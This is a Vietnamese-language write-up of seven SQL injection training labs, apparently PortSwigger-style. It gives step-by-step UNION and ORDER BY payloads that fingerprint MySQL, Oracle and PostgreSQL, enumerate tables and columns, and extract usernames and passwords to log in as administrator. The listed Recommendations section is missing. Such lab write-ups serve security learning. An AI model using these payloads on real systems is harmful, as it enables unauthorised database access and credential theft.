# SQL Injection
>Tên tài liệu: SQL Injection<br>
Thực hiện: Phạm Văn Tam <br>
Cập nhật lần cuối: 10/10/2024
>
# Mục Lục
[1. Lab1: SQL injection attack, querying the database type and version on MySQL and Microsoft ](#p1) <br>
[2. Lab2: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#p2) <br>
[3. Lab3: SQL injection UNION attack, retrieving data from other tables](#p3) <br>
[4. Lab4: SQL injection UNION attack, retrieving data from other tables](#p4) <br>
[5. Lab5: SQL injection UNION attack, retrieving multiple values in a single column](#p5) <br>
[6. Lab6: SQL injection attack, listing the database contents on Oracle](#p6) <br>
[7. Lab7: SQL injection UNION attack, determining the number of columns returned by the query](#p7) <br>
[8. Recommendations](#p8)


# Nội dung
<a id="p1"></a>
## Lab1: SQL injection attack, querying the database type and version on MySQL and Microsoft
Mục tiêu của lab này là hiển thị được Database version

Phần mô tả của lab nói rằng lab này đang gặp lỗ hổng SQL Injection ở trong product category filter <br>
Test thử với `'` và xem phản hồi của server

Lỗi 500 trả về cho thấy trang web đang có lỗ hổng SQL Injection
Tìm số cột của Database <br>
Payload:

```sql
' order by 3#  
```

=> internal server error => so cot =2 <br>
Tìm cột nào đang chứa contain text
Payload:
```
' UNION SELECT 'a','a'#
```

Và check databse version
Payload:
```
' UNION SELECT @@version, NULL#
```

Tìm được database version là :`8.0.39-0ubuntu0.20.04.1`
<a id="p2"></a>
## Lab2: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
Mục tiêu của bài này là thực hiện tấn công SQLi để khiến ứng dụng hiển thị một hoặc nhiều sản phẩm chưa phát hành <br>
Lab này SQLi có thể chèn trong product category filter

Lỗi 500 trả về => Web bị lỗ hổng SQL Injection <br>
Payload : `' OR 1=1 --` <br>
Câu query bây giờ sẽ là <br>
```
SELECT * FROM products WHERE category = 'Gifts'OR 1=1--' AND released = 1
```
- **OR 1=1**: Điều kiện "hoặc" luôn đúng, vì `1=1` luôn luôn đúng. Điều này khiến toàn bộ điều kiện `WHERE` luôn đúng, nghĩa là tất cả các bản ghi trong bảng `products` sẽ được trả về, không chỉ những sản phẩm thuộc danh mục `Gifts` 
- `--' AND released = 1` sẽ trở thành comment <br>

<a id="p3"></a>
## Lab3: SQL injection UNION attack, retrieving data from other tables
Mục tiêu của lab này là lấy usernames  và passwords vào bảng users và đăng nhập với tư cách là administrator.
B1: Tìm số cột
Payload: 

```sql
' ORDER BY 3 --   => internal server error => so cot = 2
' UNION SELECT NULL,NULL -- => response 200 => so cot =2
```
B2: Xác định kiểu dữ liệu các cột

```sql
' UNION SELECT 'a','b' --
```


⇒ Cả 2 cột đều có kiểu dữ liệu là chuỗi

Payload để lấy username và password từ bảng user

```sql
' UNION SELECT username, password FROM users --
```


Tiến hành login với tài khoản `administrator` với password là `j5tzph1b765ac81gqexx`

<a id="p4"></a>
## Lab4: SQL injection attack, querying the database type and version on Oracle
Mục tiêu của bài này là hiển thị được database version

B1: Xác định số cột 

```sql
' ORDER BY 3 --  => Internal Server Error => so cot = 2
```

B2: Xác định kiểu dữ liệu của các cột

```sql
' UNION SELECT 'a','a' --
```

⇒ Báo lỗi server , nhìn mô tả lab thì thấy nó đang thuộc Oracle Database
```sql
' UNION SELECT 'a','a' FROM DUAL --
```
​

B3: Output database version

```sql
' UNION SELECT banner,NULL FROM v$version --
```
​
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
<a id="p5"></a>
## Lab5: SQL injection UNION attack, retrieving multiple values in a single column
Mục tiêu của bài lab này là truy xuất tất cả `username` và `passwords` và login với tài khoản `administrator` 

B1: Tìm số cột

```sql
' order by 1 -- => not displayed on the page
' order by 2 -- => displayed on the page
' order by 3 -- => internal server error => so cot = 3-1 =2
```

B2: Tìm cột đang chứa contain text

```sql
' UNION SELECT 'a',NULL--  => Internal Server Error
' UNION SELECT NULL,'a' -- => 200 => cot 2 chua contain text
```

B3 : Xuất data từ các bảng

Chúng ta cần xác định được đây là database gì để có thể trích xuất được cả username và password trên một câu truy vấn

Payload xác định
```sql
' UNION SELECT NULL,version() --
```

⇒ PostgreSQL 12.20 (Ubuntu 12.20-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit

Payload trích xuất cả username và password
```sql
' UNION select NULL, username || '*' || password from users --
```

Tiến hành login bằng tài khoản administrator và hoàn thành bài lab
<a id="p6"></a>
## Lab6:SQL injection attack, listing the database contents on Oracle
Mục tiêu của lab này là xác định bảng chứa username và passwords , xác định các cột và xuất nội dung của bảng và login với tài khoản administrator
B1: Xác định số cột
```
' ORDER BY 3 --   => Internal Server Error => so cot =2
```
​
B2: Xác định kiểu dữ liệu các cột
Vì database hiện tại là Oracle 
```
' UNION SELECT 'a','a' FROM DUAL --
```

Cả 2 cột đang là text
B3: Tìm các bảng có trong database
```
' UNION SELECT table_name,NULL FROM all_tables --
```

`USERS_DJYGZI`
B4: Tìm các cột có trong database
```
'UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_DJYGZI'--
```

⇒ Có 2 cột : USERNAME_VZOFCI và PASSWORD_ZWFQHZ
B5: List user , password từ 2 cột trên
```
' UNION SELECT USERNAME_VZOFCI,PASSWORD_ZWFQHZ FROM USERS_DJYGZI --
```

Login với usernames administrator và password là rfk6ngsh7f7f2wuk7ls0
<a id="p7"></a>
## Lab7: SQL injection UNION attack, determining the number of columns returned by the query
Mục tiêu của lab này là xác định được số cột được truy vấn trả về bằng cách thực hiện SQLi UNION để trả về một hàng bổ sung chứa giá trị NULL
Ở /filter?category= ta sẽ tiên hành thêm payload sau:
```
' UNION SELECT NULL --
```
Lỗi trả về <br>

Tiếp tục bổ sung các cột cho đến khi hết lỗi
Payload: 
```
' UNION SELECT NULL,NULL,NULL --
' ORDER BY 3 -- (4 lỗi server ⇒ số cột = 4-1 =3)
```
